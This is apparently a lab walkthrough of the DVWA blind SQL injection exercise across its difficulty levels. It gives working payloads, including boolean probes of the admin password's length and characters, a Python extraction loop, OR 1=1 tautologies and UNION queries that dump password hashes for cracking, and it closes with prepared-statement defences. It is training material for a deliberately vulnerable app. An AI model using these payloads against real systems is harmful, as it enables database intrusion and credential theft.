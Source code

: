 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/sqli_blind/
---
```


# SQLi Blind --

<details>

<summary>What is a SQL Injection Blind?</summary>

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [`UNION` attacks](https://portswigger.net/web-security/sql-injection/union-attacks) are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

</details>

{% embed url="https://portswigger.net/web-security/sql-injection/blind" %}
[https://portswigger.net/web-security/sql-injection/blind](https://portswigger.net/web-security/sql-injection/blind)
{% endembed %}

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've an input type text that received an User ID in I by user and submit request using the Submit button:

<div align="left">

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

</div>

In SQL Blind we obtain a boolean result (exist or not exist) of our query, then we need to be able to ask correctly information from DB, make script can be the best approach.

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

This's our request captured by Burp Suite, while here below there's a php source code:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

How the same in the low level, there're not input sanitation, then we can send what we want into input type text field. In this case request will arrive to DB located into webserver, but query will be preparared using php language.

Analyzing source code, we know that mysql query is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

#### 1st Payload (length)

Regarding query and that our input type value is insert into $id variable, we need to do multiple question to DB regarding password length.

Then in this case, we can use following payload: `1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 31)='x' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 30)='x' #';
```

_admin password length is > 31?_

<div align="left">

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

</div>

User ID exists in the DB = true.

We need to continue to ask questions for obtain a correct value.

_admin password length is > 32?_

<div align="left">

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

</div>

No! Answer is wrong, then regarding last two answer, we know that admin password length has 32 characters.

Of course we can use an automated python script to do this automatically:

{% embed url="https://github.com/LeonardoE95/DVWA/blob/main/src/sqli_blind/low.py" %}

#### 2nd Payload (value)

starting with the first character, up to the last (which we know from the length we have just obtained) we must repeatedly query the DB asking whether or not the password character of the i-th position includes one of the possible alphanumeric characters.

```python
for i in range(1, password_length+1):
    for c in ALPHABET:
        sql_payload = f"1' AND (select substring(password, {i}, 1) from users where first_name='{username}')='{c}' #"
        if sql2bool(sql_payload):
            password += c
            print(c, end="", flush=True) # to print in a cool way
            break
```

Then, our query will be:

`1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #';
```

Is the first character of admin password equals to 'a'?

<div align="left">

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

</div>

No! again, is the first character of admin password equals to '5'?

<div align="left">

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, the first character is 5, then we can continue to increment index and redo all questions until the final string will be discovered.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

Here, there're a select with range (1 to 5) to set User ID.

<div align="left">

<figure><img src="../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

</div>

In addition to low level, in the code below there're an escape string control and query variable $ID isn't enclosed by ''.



Our request include an ID + Submit values.

<figure><img src="../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

But, we can modify ID value using Burp Suite repeater function:

<figure><img src="../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

#### 1st Payload

Remembering that $ID variable isn't enclosed by '', escape string control isn't a matter.

Then in this case, we can use following payload: `1 OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1 -- ;
```

in the where condition there're a first search to user with this id '' OR a true condition, plus a comment.

<figure><img src="../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How the low level, regarding that query selects: first\_name, last\_name field from users table, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  1 `UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT first_name,password FROM users -- ';
```

<figure><img src="../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## High

In this level clicking on first page, we obtain a redirect to a second page to submit effectively our Session ID:

<figure><img src="../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

</div>

#### 1st Payload

In this case payload is always the same of low level, but we need to add it into second page, infact we've two request (GET and POST)

However, we can use following payload: `1' OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1 -- ';
```

that permit us to see all DB results:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How last levels, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  `' UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT first_name,password FROM users -- ';
```

<div align="left">

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

</div>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

The best solution is to sanitize query using a prepared statement, to delineate part static and dinamic (id) of query; take a binding parameter to check if is it an integer or char; insert a control to count rows number as result; and use a [CSRF](csrf.md) token.

All this permits to separate sql code with sql data/parameter insert by user.

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind](https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind)

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection" %}
[15 - SQL Injection](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection)
{% endcontent-ref %}

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
